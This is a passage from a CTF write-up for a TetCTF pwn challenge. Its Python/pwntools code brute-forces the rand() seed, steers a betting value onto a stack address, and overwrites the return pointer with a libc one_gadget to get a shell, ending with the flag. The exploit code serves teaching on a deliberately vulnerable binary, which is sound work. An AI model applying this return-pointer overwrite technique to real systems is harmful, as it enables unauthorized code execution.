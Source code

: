 ```python
        if count >= 5:
            real_seed = seed
            break
    
```

Now we also have the ability to get the seed of the program using offline bruteforcing, this is awesome!

Last part it to change the "money" to the stack address we need and overwrite the return pointer with the one_gadget



```python
def main():
    # previous code...
    # Needed to get correct "Lucky number"
    to_guess = libc_so.rand()
    
    # Needed to calculate our bet
    add_value = libc_so.rand()
    
    # Calculating our bet by stack addr, 
    # curr addr and the add_value the program will generate
    bet = leak_stack - (addr + add_value)
    # Send the bet
    io.sendline(str(bet))
    io.recvuntil("Your choice:")
    # Send the guess
    io.sendline(str(to_guess))
    io.recvuntil("Lucky number: ")
    io.recvuntil("Your money: ")
    data = io.recv().split(b" ZWD")[0]
    
    # Make sure correct addr
    addr = int(data, 10)
    assert(addr == stack_addr)
    success("Current addr: {}".format(hex(addr)))
    # Exit betting and give feedback
    io.sendline("0")
    io.recvuntil("feeback: ")
    
    # Get one_gadget address, this is done using the one_gadget tool
    target_addr = libc_base + 0x4527a 
    # Provide feedback.
    # Overwrite with one_gadget address and nulls 
    # (nulls are to make sure the constraints on the one_gadget are met)
    io.sendline(p64(target_addr) + b"\x00"*(0x400-8))

    io.interactive()
```



### Proof of flag

```
TetCTF{viettel: *100*311267385452644#}
```

